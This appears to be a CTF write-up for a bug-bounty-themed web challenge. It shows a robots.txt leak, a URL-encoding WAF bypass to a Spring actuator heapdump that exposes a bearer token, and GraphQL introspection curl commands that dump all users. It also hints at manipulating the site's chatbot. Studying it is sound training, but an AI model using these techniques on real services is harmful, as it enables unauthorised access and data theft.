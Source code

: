 # The Mission
Author: BuildHackSecure @ HackingHub

HackingHub has provided this CTF challenge!

Welcome to the BugBounty platform, you've submitted a report for Yahoo but oh no!! So has STÖK and it looks like you're going to get dupped!

Hack into the platform and change STÖK's report to duplicate first so you can grab the bounty!

You can login with the follow details:
Username: hacker
Password: password123

Submit the first flag you uncover within this challenge.

For Flag 6:

The chatbot on the website required some nudging.

For flag 1: 
Visitng /robots.txt
Response:
```
User-agent: *
Disallow: /internal-dash

#flag_1{858c82dc956f35dd1a30c4d47bcb57fb}
```

For Flag 2:

Visiting: /api/v1
Response: {"server":"openjdk:19-jdk:bountyapi.war","message":"Deprecated, please use v2"}

This reveals that springboot is being used.

Visiting: /api/v1/actuator 
Response: Whoop Whoop, you triggered the WAF!

Visiting: /api/v1/actuator
Response: {"flag":"flag_2{a67796e1232c71f5a37177550a98a054}","_links":{"self":{"href":"\/api\/v1\/actuator","templated":false},"headdump":{"href":"\/api\/v1\/actuator\/heapdump","templated":false}}}

Visiting: /api/v1/%61ctuator/heapdump
Response:Whoop Whoop, you triggered the WAF!

Visiting: /api/v1/%61ctuator/heapdump
Response: 
```
0x00007f9b3c1a2e80: 6a 61 76 61 2e 6c 61 6e 67 2e 53 74 72 69 6e 67  java.lang.String
0x00007f9b3c1a2e90: 40 35 63 39 65 66 61 34 0a 5b 52 75 6e 74 69 6d  @5c9efa4.[Runtime
0x00007f9b3c1a2ea0: 43 6c 61 73 73 65 73 5d 20 64 65 62 75 67 20 6d  Classes] debug m
0x00007f9b3c1a2eb0: 6f 64 65 20 65 6e 61 62 6c 65 64 0a 00 70 72 6f  ode enabled..pro
0x00007f9b3c1a2ec0: 63 65 73 73 4d 61 6e 61 67 65 72 3a 20 6a 61 76  cessManager: jav
0x00007f9b3c1a2ed0: 61 2e 75 74 69 6c 2e 63 6f 6e 63 75 72 72 65 6e  a.util.concurrent
0x00007f9b3c1a2ee0: 74 2e 46 6f 72 6b 4a 6f 69 6e 50 6f 6f 6c 24 57  t.ForkJoinPool$W
0x00007f9b3c1a2ef0: 6f 72 6b 65 72 40 31 61 66 66 38 66 66 0a 0a 70  orker@1aff8ff..p
0x00007f9b3c1a2f00: 70 6f 73 74 20 2f 61 70 69 2f 76 31 2f 69 6e 74  post /api/v1/int
0x00007f9b3c1a2f10: 65 72 6e 61 6c 2d 64 61 73 68 62 6f 61 72 64 2f  ernal-dashboard/
0x00007f9b3c1a2f20: 74 6f 6b 65 6e 20 48 54 54 50 2f 31 2e 31 0d 0a  token HTTP/1.1..
0x00007f9b3c1a2f30: 41 75 74 68 6f 72 69 7a 61 74 69 6f 6e 3a 20 42  Authorization: B
0x00007f9b3c1a2f40: 65 61 72 65 72 20 65 79 4a 68 62 47 63 69 4f 69  earer eyJhbGciOi
0x00007f9b3c1a2f50: 4A 49 55 7A 49 31 4E 69 49 73 49 6E 52 35 63 43  JIUzI1NiIsInR5cC
0x00007f9b3c1a2f60: 49 36 49 6B 70 58 56 43 4A 39 2E 65 79 4A 31 63  I6IkpXVCJ9.eyJ1c
0x00007f9b3c1a2f70: 32 56 79 62 6D 46 74 5A 53 49 36 49 6D 6C 75 64  2VybmFtZSI6Imlud
0x00007f9b3c1a2f80: 47 6B 69 66 51 2E 59 65 71 76 66 51 37 4C 32 35  GkifQ.YeqvfQ7L25
0x00007f9b3c1a2f90: 6F 68 68 77 42 45 35 54 70 6D 71 6F 32 5F 35 4D  ohhwBE5Tpmqo2_5M
0x00007f9b3c1a2fa0: 68 71 79 4F 43 58 45 37 54 39 62 47 38 39 35 55  hqyOCXE7T9bG895U
0x00007f9b3c1a2fb0: 6B 0d 0a 48 6F 73 74 3A 20 69 6E 74 65 72 6E 61  k..Host: interna
0x00007f9b3c1a2fc0: 6C 2D 74 65 73 74 69 6E 67 2D 61 70 70 73 0d 0a  l-testing-apps..
0x00007f9b3c1a2fd0: 43 6f 6e 74 65 6e 74 2d 54 79 70 65 3a 20 61 70  Content-Type: ap
0x00007f9b3c1a2fe0: 70 6c 69 63 61 74 69 6f 6e 2f 6a 73 6f 6e 0d 0a  plication/json..
0x00007f9b3c1a2ff0: 43 6f 6e 6e 65 63 74 69 6f 6e 3a 20 6b 65 65 70  Connection: keep
0x00007f9b3c1a3000: 2d 61 6c 69 76 65 0d 0a 0d 0a 7b 22 75 73 65 72  -alive....{"user
0x00007f9b3c1a3010: 6e 61 6d 65 22 3a 22 69 6e 74 69 22 7d 00 6a 61  name":"inti"}..ja
0x00007f9b3c1a3020: 76 61 2e 6e 65 74 2e 55 52 4c 43 6c 61 73 73 2e  va.net.URLClass.
0x00007f9b3c1a3030: 63 6f 6d 2f 65 78 61 6d 70 6c 65 2f 41 70 70 6c  com/example/Appl
```

For flag 4:  

On going to the settings page:
![alt text](image.png)

A new endpoint is called:
`/api/v2/graphql`
with the following payload:
```
{"query":"\n        query GetUser($id: ID!) {\n          user(id: $id) {\n            username\n            email\n          }\n        }\n        ","variables":{"id":"fd55a401-b110-4821-9155-add4653cb992"}}
```

Maybe we can dump all the ids via this graphql endpoint:

First get all the fields:
```sh
└─$ curl -X POST http://challenge.nahamcon.com:32712/api/v2/graphql \
  -H 'Content-Type: application/json' \
  -d '{"query":"{ __schema { types { name fields { name } } } }"}'

{"data":{"__schema":{"types":[{"name":"User","fields":[{"name":"id"},{"name":"username"},{"name":"email"}]},{"name":"ID","fields":null},{"name":"String","fields":null},{"name":"Query","fields":[{"name":"user"},{"name":"users"}]},{"name":"Boolean","fields":null},{"name":"__Schema","fields":[{"name":"description"},{"name":"types"},{"name":"queryType"},{"name":"mutationType"},{"name":"subscriptionType"},{"name":"directives"}]},{"name":"__Type","fields":[{"name":"kind"},{"name":"name"},{"name":"description"},{"name":"specifiedByURL"},{"name":"fields"},{"name":"interfaces"},{"name":"possibleTypes"},{"name":"enumValues"},{"name":"inputFields"},{"name":"ofType"},{"name":"isOneOf"}]},{"name":"__TypeKind","fields":null},{"name":"__Field","fields":[{"name":"name"},{"name":"description"},{"name":"args"},{"name":"type"},{"name":"isDeprecated"},{"name":"deprecationReason"}]},{"name":"__InputValue","fields":[{"name":"name"},{"name":"description"},{"name":"type"},{"name":"defaultValue"},{"name":"isDeprecated"},{"name":"deprecationReason"}]},{"name":"__EnumValue","fields":[{"name":"name"},{"name":"description"},{"name":"isDeprecated"},{"name":"deprecationReason"}]},{"name":"__Directive","fields":[{"name":"name"},{"name":"description"},{"name":"isRepeatable"},{"name":"locations"},{"name":"args"}]},{"name":"__DirectiveLocation","fields":null}]}}}
```

We have users name also, so we can query for all the users.

```sh
└─$ curl -X POST http://challenge.nahamcon.com:32712/api/v2/graphql \
  -H 'Content-Type: application/json' \
  -d '{"query":"{ users { id username email } }"}'

{"data":{"users":[{"id":"359fb73c-cbe8-4b1b-b7d9-fa26c4ed1f0b","username":"nahamsec","email":"nahamsec@bugbounty.ctf"},{"id":"5b2d7302-a424-4c41-9412-b378acedda08","username":"rhynorater","email":"rhynorater@bugbounty.ctf"},{"id":"15ee453d-18c7-419b-a3a6-ef8f2cc1271f","username":"stok","email":"flag_4{253a82878df615bb9ee32e573dc69634}"},{"id":"4d513e52-a79a-417a-8199-cc091220f340","username":"shubs","email":"shubs@bugbounty.ctf"},{"id":"bbccd010-bbd0-4b48-9c34-f4e151c4d9e4","username":"fattselimi","email":"fattselimi@bugbounty.ctf"},{"id":"30ec2071-eb96-4785-9a9a-c79b438f6181","username":"insiderphd","email":"insiderphd@bugbounty.ctf"},{"id":"cbba1083-0b54-4b66-aafd-350eea037d38","username":"inti","email":"inti@bugbounty.ctf"},{"id":"874d18fc-3479-4cae-a915-01b0bb7a6c49","username":"renniepak","email":"renniepak@bugbounty.ctf"},{"id":"fd55a401-b110-4821-9155-add4653cb992","username":"hacker","email":"hacker@bugbounty.ctf"}]}}
```

Here we got the flag 4.

curl 'http://challenge.nahamcon.com:32712/settings' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' \
  -H 'Accept-Language: en-GB,en;q=0.9,en-US;q=0.8,en-IN;q=0.7' \
  -H 'Cache-Control: max-age=0' \
  -H 'Connection: keep-alive' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -b 'PHPSESSID=ecd355fbb08598a920bc572cedcd98b5' \
  -H 'DNT: 1' \
  -H 'Origin: http://challenge.nahamcon.com:32712' \
  -H 'Referer: http://challenge.nahamcon.com:32712/settings' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36 Edg/136.0.0.0' \
  --data-raw 'username=hacker&email=hacker%40bugbounty.ctf&current_password=hacker123&new_password=password&confirm_password=password' \
  --insecure
